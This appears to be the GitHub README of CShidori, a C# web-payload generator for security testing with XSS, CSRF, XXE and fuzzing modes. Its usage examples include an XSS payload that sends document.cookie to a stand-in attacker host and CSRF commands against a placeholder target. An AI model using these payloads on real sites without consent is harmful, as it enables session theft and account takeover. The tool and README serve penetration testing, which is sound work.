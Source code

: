 # CShidori

A C# "Thousand Birds" Payloads Generator

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

* OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

* Taisen: [Website](https://taisen.fr)

## Supported modes and payloads

* Mutation
* XSS
* JSON
* XML
* GET
* CSRF
* XXE
* MSTest
* Encoding
* List Dump

## Usage

### Mutation

```powershell
.\CShidori.exe -m mut -o 5 -p test
```

### XSS / Injections

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe -m json -p ..\testing\test.json
```

### XML

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml
```

### GET

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe -m xxe
```
### MSTEST
Test for Microsoft.VisualStudio.TestTools.UnitTesting
```powershell
.\CShidori.exe -m mst -p 'function( \"value1\", 2, FUZZ)' -i FUZZ
```

### Encode

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### Dump

```powershell
.\CShidori.exe -m dump
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
